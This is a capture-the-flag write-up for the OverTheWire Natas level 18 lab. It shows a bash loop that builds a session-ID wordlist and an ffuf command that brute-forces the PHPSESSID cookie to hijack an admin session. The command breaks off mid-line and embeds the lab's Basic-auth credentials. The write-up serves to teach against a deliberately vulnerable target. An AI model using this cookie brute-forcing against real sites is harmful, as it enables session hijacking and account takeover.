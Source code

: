 Let's try to login with some random credentials. The application responded that "You are logged in as a regular user. Login as an admin to retrieve credentials for `natas19`".

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

I captured the request of the above login attempt with burpsuite. On checking it, the response to the logic request responded back with a cookie `PHPSESSID=184`.

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

So I decided to brute force this cookie value to find the id of the admin. For that, first I created a word list that contains all the possible user id's ( since we know the maximum number of users is `640` ).

```bash
for i in {0..640}; do echo $i >> 640.txt; done
```

Next, I used `ffuf` to brute force the cookie value using the word list that we generated above using the following command.&#x20;

{% code lineNumbers="true" %}
```bash
ffuf -w 640.txt:FUZZ \
    -u $'http://natas18.natas.labs.overthewire.org/index.php' \
    -X $'POST' \
    -H $'Host: natas18.natas.labs.overthewire.org' \
    -H $'Content-Length: 31' -H $'Cache-Control: max-age=0' \
    -H $'Authorization: Basic bmF0YXMxODo4TkVEVVV4ZzhrRmdQVjg0dUx3dlprR242b2tKUTZhcQ==' \
    -H $'Upgrade-Insecure-Requests: 1' \
    -H $'Origin: http://natas18.natas.labs.overthewire.org' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' \
    -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
```